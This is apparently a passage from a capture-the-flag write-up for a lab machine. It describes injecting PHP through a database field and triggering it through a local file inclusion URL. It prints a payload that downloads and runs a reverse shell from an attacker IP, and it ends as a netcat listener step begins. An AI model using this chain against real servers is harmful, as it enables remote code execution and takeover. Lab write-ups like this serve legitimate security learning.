 Follow these steps to setup the PHP code injection environment:

- create a new database with *.php* at the end of the name

![x](9-screenshots-storage/create_database.png)

- create a new table with 1 field

![x](9-screenshots-storage/make_new_table.png)

- name the feild, and fill in the new feild's default value with php
	- in this case, the php code will allow us to run system commands by leveraging the previously found LFI vulnerability.

![x](9-screenshots-storage/make_new_field.png)

php code used:

```php
<?php system("wget 10.10.14.4/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php"); ?>
```

Make sure to modify the IP address in the php code so that it works with your attacker machine.

We can now browse to the following url, and have multiple things happen at once. 
	- we leverage the LFI vulnerability to access the new database file
	- we execute the php code injected into the newly created database
	- using php paramaters in the url, we can define commands for the injected php code to run on the target system

```txt
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/dev.php&cmd=id
```

In this case, the url will execute the "id" command.

We can modify this url to execute a reverse shell.

First, start a netcat listener:
